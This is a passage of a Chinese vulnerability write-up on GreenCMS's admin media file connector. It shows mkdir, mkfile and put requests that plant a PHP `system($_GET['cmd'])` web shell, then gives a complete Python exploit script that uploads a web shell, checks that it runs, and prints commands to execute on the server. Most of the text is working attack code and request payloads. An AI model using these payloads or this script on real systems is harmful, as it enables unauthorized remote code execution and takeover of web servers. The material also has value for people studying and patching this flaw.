

[http://xxx.xxx.xxx.xxx/index.php?m=admin&c=media&a=fileconnect&cmd=open&target=xxxx&init=1&tree=1](http://127.0.0.1/index.php?m=admin&c=media&a=fileconnect&cmd=open&target=l1_cHRz&init=1&tree=1)



如果不加target的话是当前upload目录，加了的话就是指定目录

## mkdir漏洞验证

`'mkdir' => array('target' => true, 'name' => true)`

cmd=mkdir&target=xxxx&name=xxxx

[http://xxx.xxx.xxx.xxx/index.php?m=admin&c=media&a=fileconnect&cmd=mkdir&target=l1\_XA&name=pts](http://127.0.0.1/index.php?m=admin&c=media&a=fileconnect&cmd=mkdir&target=l1_XA&name=pts)





## mkfile漏洞验证

`'mkfile' => array('target' => true, 'name' => true, 'mimes' => false)`

cmd=mkfile&target=xxxx&name=xxxx

[http://xxx.xxx.xxx.xxx/index.php?m=admin&c=media&a=fileconnect&cmd=mkfile&target=l1\_XA&name=11.php](http://127.0.0.1/index.php?m=admin&c=media&a=fileconnect&cmd=mkfile&target=l1_XA&name=11.php)





当然这个是upload下创建，那如果是在刚才创建的目录里面创建一个文件呢？

通过open去查看他的hash信息也就是target值即可







## put漏洞验证

既然目录创建了，文件也创建了，那是不是可以往里写？

`'put' => array('target' => true, 'content' => '', 'mimes' => false)`

cmd=put&target=xxxx&content=xxxx

[http://xxx.xxx.xxx.xxx/index.php?m=admin&c=media&a=fileconnect&cmd=put&target=xxxx&content=%3C?php%20system($\_GET[%27cmd%27]);?%3E](http://127.0.0.1/index.php?m=admin&c=media&a=fileconnect&cmd=put&target=l1_MTEucGhw&content=%3C?php%20system($_GET[%27cmd%27]);?%3E)






这是写到根目录下的文件里面的字符串

下面是写到pts目录下文件中的

为了引起不必要的麻烦，我重新生成了一个12.php

[http://xxx.xxx.xxx.xxx/index.php?m=admin&c=media&a=fileconnect&cmd=put&target=xxxx&content=%3C?php%20system($\_GET[%27cmd%27]);?%3E](http://127.0.0.1/index.php?m=admin&c=media&a=fileconnect&cmd=put&target=l1_cHRzXDEyLnBocA&content=%3C?php%20system($_GET[%27cmd%27]);?%3E)






因为我系统有linux命令所以可以执行ls

# 自动化脚本

github找的一个脚本然后用ai改良了一下

Github原脚本链接：<https://github.com/Kai-One001/cve-/blob/main/GreenCMS_upload_CVE-2025-9415.py>

```
#!/usr/bin/env python3
import requests
import argparse
import sys
import json
import random
import string
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# 全局调试标志
DEBUG = True


def banner():
    print(r"""
   ______     ______     ______     ______     ______     ______     ______    
  /_____/\   /_____/\   /_____/\   /_____/\   /_____/\   /_____/\   /_____/\   
  \:::_ \ \  \:::_ \ \  \:::_ \ \  \:::_ \ \  \:::_ \ \  \:::_ \ \  \:::_ \ \ 
   \:\ \ \ \  \:\ \ \ \  \:\ \ \ \  \:\ \ \ \  \:\ \ \ \  \:\ \ \ \  \:\ \ \ \
    \:\ \ \ \  \:\ \ \ \  \:\ \ \ \  \:\ \ \ \  \:\ \ \ \  \:\ \ \ \  \:\ \ \ \
     \:\/.:| |  \:\/.:| |  \:\/.:| |  \:\/.:| |  \:\/.:| |  \:\/.:| |  \:\/.:| |
      \____/_/   \____/_/   \____/_/   \____/_/   \____/_/   \____/_/   \____/_/ 
    """)
    print("GreenCMS 文件上传漏洞利用工具 (原始HTTP格式调试)")
    print("=" * 60)


def format_raw_http_request(method, url, headers, body):
    """将请求格式化为原始HTTP格式"""
    from urllib.parse import urlparse

    parsed_url = urlparse(url)
    path = parsed_url.path
    if parsed_url.query:
        path += "?" + parsed_url.query

    request_lines = [f"{method} {path} HTTP/1.1"]
    request_lines.append(f"Host: {parsed_url.hostname}")

    for key, value in headers.items():
        if key.lower() != 'host':  # 已经单独添加了Host头
            request_lines.append(f"{key}: {value}")

    request_lines.append("")  # 空行分隔头部和主体
    if body:
        request_lines.append(body)

    return "
".join(request_lines)


def debug_print_raw_request(title, method, url, headers, body):
    """以原始HTTP格式打印请求"""
    if DEBUG:
        print(f"
{'=' * 20} {title} {'=' * 20}")
        raw_request = format_raw_http_request(method, url, headers, body)
        print(raw_request)
        print(f"{'=' * (40 + len(title))}
")


def debug_print_raw_response(title, response):
    """以原始HTTP格式打印响应"""
    if DEBUG:
        print(f"
{'=' * 20} {title} {'=' * 20}")

        # 状态行
        print(f"HTTP/1.1 {response.status_code} {response.reason}")

        # 响应头
        for key, value in response.headers.items():
            print(f"{key}: {value}")

        print("")  # 空行分隔头部和主体

        # 响应体
        print(response.text)
        print(f"{'=' * (40 + len(title))}
")


def get_upload_hash(target, session):
    """从服务器动态获取 Upload 目录的 hash"""
    if not target.startswith(('http://', 'https://')):
        target = 'http://' + target

    url = f"{target}/index.php?m=admin&c=media&a=fileconnect&cmd=open&init=1&tree=1"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Connection": "close"
    }

    print(f"[+] 正在获取 Upload 目录 Hash: {url}")

    try:
        # 发送请求前打印原始请求格式
        debug_print_raw_request("GET 请求原始格式", "GET", url, headers, "")

        res = session.get(url, headers=headers, timeout=10, verify=False)

        # 打印原始响应格式
        debug_print_raw_response("GET 响应原始格式", res)

        print(f"[*] 响应码: {res.status_code}")

        if res.status_code == 200:
            try:
                data = res.json()
                if "files" in data:
                    for item in data["files"]:
                        if item.get("name") == "Upload" and "hash" in item:
                            upload_hash = item["hash"]
                            print(f"[+] 成功获取 Upload 目录 Hash: {upload_hash}")
                            return upload_hash
                print("[-] 未在响应中找到 Upload 目录")
            except json.JSONDecodeError:
                print("[-] 响应不是有效的 JSON 格式")
        else:
            print(f"[-] 获取 Hash 请求失败: {res.status_code}")
    except Exception as e:
        print(f"[-] 获取 Hash 时发生错误: {e}")
    return None


def upload_webshell(target, upload_hash, session, filename=None):
    """上传 WebShell，返回 (成功, 响应文本, webshell_url)"""
    if not target.startswith(('http://', 'https://')):
        target = 'http://' + target

    url = f"{target}/index.php?m=admin&c=media&a=fileconnect"

    # 生成随机文件名
    random_str = ''.join(random.choices(string.ascii_lowercase + string.digits, k=8))
    webshell_name = filename or f"{random_str}.php"

    webshell_content = '<?php echo "OK"; system($_GET["cmd"]); ?>'

    # 生成边界字符串
    boundary = "----WebKitFormBoundary" + ''.join(random.choices(string.ascii_letters + string.digits, k=16))

    # 构造请求体 - 使用您指定的格式
    body = (
        f"--{boundary}\r
"
        f'Content-Disposition: form-data; name="cmd"\r
\r
'
        f"upload\r
"
        f"--{boundary}\r
"
        f'Content-Disposition: form-data; name="target"\r
\r
'
        f"{upload_hash}\r
"
        f"--{boundary}\r
"
        f'Content-Disposition: form-data; name="upload[]"; filename="{webshell_name}"\r
'
        f"Content-Type: application/octet-stream\r
\r
"
        f"{webshell_content}\r
"
        f"--{boundary}--\r
"
    )

    headers = {
        "Content-Type": f"multipart/form-data; boundary={boundary}",
        "Content-Length": str(len(body)),
        "Cookie": session.cookies.get_dict(),
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36",
        "Connection": "close"
    }

    # 将Cookie字典转换为字符串格式
    cookie_str = '; '.join([f'{k}={v}' for k, v in session.cookies.get_dict().items()])
    headers["Cookie"] = cookie_str

    print(f"[+] 尝试上传 WebShell -> Hash: {upload_hash}")

    try:
        # 发送请求前打印原始请求格式
        debug_print_raw_request("POST 请求原始格式", "POST", url, headers, body.replace('\r
', '
'))

        res = session.post(url, headers=headers, data=body, timeout=10, verify=False)

        # 打印原始响应格式
        debug_print_raw_response("POST 响应原始格式", res)

        print(f"[*] 响应码: {res.status_code}")

        if res.status_code == 200:
            try:
                data = res.json()
                if "added" in data and len(data["added"]) > 0:
                    webshell_url = f"{target}/Upload/{webshell_name}"
                    print(f"[+] 上传成功！WebShell 地址: {webshell_url}")
                    return True, res.text, webshell_url
                else:
                    print("[-] 上传失败：响应中未包含文件信息")
            except json.JSONDecodeError:
                print("[-] 响应不是有效的 JSON 格式")
        else:
            print(f"[-] 上传失败: HTTP {res.status_code}")
    except Exception as e:
        print(f"[-] 上传时发生异常: {e}")

    return False, None, None


def execute_command(webshell_url, cmd, session):
    """执行系统命令"""
    encoded_cmd = urllib.parse.quote(cmd)
    full_url = f"{webshell_url}?cmd={encoded_cmd}"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Connection": "close"
    }

    # 打印命令执行请求
    debug_print_raw_request("命令执行请求", "GET", full_url, headers, "")

    try:
        res = session.get(full_url, headers=headers, timeout=10, verify=False)

        # 打印命令执行响应
        debug_print_raw_response("命令执行响应", res)

        return res.text.strip()
    except Exception as e:
        return f"[!] 执行失败: {e}"


def main():
    parser = argparse.ArgumentParser(description="GreenCMS 文件上传漏洞利用工具")
    parser.add_argument('url', help='目标URL，例如: http://192.168.63.128')
    parser.add_argument('-c', '--cookie', required=True, help='完整认证 Cookie')
    parser.add_argument('--no-debug', action='store_true', help='关闭调试输出')

    args = parser.parse_args()

    # 设置调试模式
    global DEBUG
    DEBUG = not args.no_debug

    banner()

    # 修复URL格式
    target_url = args.url
    if not target_url.startswith(('http://', 'https://')):
        target_url = 'http://' + target_url
        print(f"[*] 自动添加协议头: {target_url}")
    else:
        print(f"[+] 目标URL: {target_url}")

    # 打印会话信息
    print(f"[+] 使用的Cookie: {args.cookie}")

    session = requests.Session()
    cookies_dict = {}
    for cookie in args.cookie.split(';'):
        if '=' in cookie:
            key, value = cookie.strip().split('=', 1)
            cookies_dict[key] = value
    session.cookies.update(cookies_dict)

    # Step 1: 先尝试使用默认 Hash l1_XA 上传
    print("
[+] 第一阶段：尝试使用默认 Hash l1_XA 上传...")
    success, _, webshell_url = upload_webshell(target_url, "l1_XA", session)

    if success:
        print("[+] 验证 WebShell...")
        result = execute_command(webshell_url, 'echo "TestSuccess"', session)
        if "TestSuccess" in result:
            print("[+] WebShell 验证成功！")
            print(f"
[+] 漏洞利用成功！")
            print(f"[+] WebShell: {webshell_url}")
            print(f"    curl '{webshell_url}?cmd=id'")
            sys.exit(0)
        else:
            print("[-] WebShell 内容异常，继续第二阶段...")

    # Step 2: 默认 Hash 失败，尝试动态获取真实 Hash
    print("
[+] 第二阶段：默认 Hash 失败，尝试动态获取 Upload Hash...")
    upload_hash = get_upload_hash(target_url, session)
    if not upload_hash:
        print("[-] 无法获取真实 Upload Hash，退出")
        sys.exit(1)
    print(f"[+] 使用真实 Hash {upload_hash} 重新上传...")
    success, _, webshell_url = upload_webshell(target_url, upload_hash, session)
    if not success:
        print("[-] 使用真实 Hash 上传仍失败，退出")
        sys.exit(1)

    print("[+] 验证 WebShell...")
    result = execute_command(webshell_url, 'echo "TestSuccess"', session)
    if "TestSuccess" not in result:
        print("[-] WebShell 验证失败（可能被拦截或解析失败）")
        sys.exit(1)

    print("[+] WebShell 验证成功！")
    print("
" + "=" * 60)
    print(" 漏洞利用成功完成！")
    print(f" WebShell URL: {webshell_url}")
    print(f" 执行命令: {webshell_url}?cmd=whoami")
    print("=" * 60)


if __name__ == '__main__':
    try:
        main()
    except KeyboardInterrupt:
        print("
[*] 用户中断，退出程序")
        sys.exit(0)
```





至此这套框架就审计完成
